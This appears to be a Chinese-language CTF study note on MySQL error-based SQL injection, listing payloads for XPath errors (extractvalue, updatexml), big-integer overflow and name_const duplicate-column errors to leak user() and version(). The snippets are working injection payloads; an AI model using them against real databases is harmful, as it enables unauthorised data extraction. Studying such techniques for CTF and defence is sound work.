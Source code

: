 ##### xpath报错注入

原理比较简单

```sql
updatexml (XML_document, XPath_string, new_value);
extractvalue(XML_document, XPath_string)
```

因为我们输入的第二个参数不符合xpath格式自然报错，xpath_string最大长度为32位，所以报错长度也为`32`位

（1）extractvalue()：

```sql
select extractvalue(1,concat(0x7e,(select user()),0x7e));
```

（2）updatexml()：

```sql
select updatexml(1,concat(0x7e,(select user()),0x7e),1);
```

##### 大整数溢出

```
select 1+~0
select 2*~0
select pow(2,1024)
```

![](images/ctf-2021-06-18-20-08-03.png)

##### name_const列名重复报错

```sql
select * from (select name_const(version(),1),name_const(version(),1))x //只能使用常量和普通字符串
```

![](images/ctf-2021-06-18-20-08-43.png)
